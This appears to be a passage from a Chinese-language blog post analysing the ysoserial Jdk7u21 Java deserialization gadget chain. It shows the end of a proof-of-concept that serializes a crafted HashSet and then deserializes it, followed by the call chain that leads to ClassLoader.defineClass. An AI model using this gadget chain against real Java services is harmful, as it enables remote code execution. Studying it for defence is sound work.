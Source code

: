 ```
        hashSet.add(proxy);

        hashMap.put(zeroHashCodeStr, templates);

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("Test.bin"));
        objectOutputStream.writeObject(hashSet);

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("Test.bin"));
        objectInputStream.readObject();
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}

```

我们放到一个jdk7u16的项目里面去运行

![image-20230213143003002](images/1.png)



# 漏洞分析

yso中给出的调用链如下

```
LinkedHashSet.readObject()
  LinkedHashSet.add()
    ...
      TemplatesImpl.hashCode() (X)
  LinkedHashSet.add()
    ...
      Proxy(Templates).hashCode() (X)
        AnnotationInvocationHandler.invoke() (X)
          AnnotationInvocationHandler.hashCodeImpl() (X)
            String.hashCode() (0)
            AnnotationInvocationHandler.memberValueHashCode() (X)
              TemplatesImpl.hashCode() (X)
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
                  TemplatesImpl.newTransformer()
                    TemplatesImpl.getTransletInstance()
                      TemplatesImpl.defineTransletClasses()
                        ClassLoader.defineClass()
```